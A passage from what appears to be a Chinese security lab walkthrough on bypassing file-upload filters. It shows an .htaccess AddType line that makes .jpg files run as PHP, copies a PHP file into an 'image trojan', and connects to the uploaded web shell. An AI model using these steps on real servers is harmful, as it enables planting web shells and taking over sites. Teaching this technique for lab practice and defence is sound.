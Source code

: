 ```
root@TQ:~/桌面# echo "AddType application/x-httpd-php .jpg" >>farmsec.htaccess
```

随后上传此文件，上传包中删除文件名，只保留后缀
![6cb7c353c1ba03c1a7af6ac64f93510d.png](../../images/2c9032bfdd1349a6b0019df54a2d4799.png)

2 制作图片马

```
root@TQ:~/桌面# cp farmsec.php farmsec.jpg
```

![9ef3b52506c15fbc6bbe34bda70d1844.png](../../images/b9900360c76940989e8047e477ebef73.png)

3 上传此文件，无需做任何更改
![f271828622b4332195bd8a6f21179853.png](../../images/fa1d1f89536a4145a80d0d68e11e2f79.png)
4 拷贝木马url，并连接木马进行测试

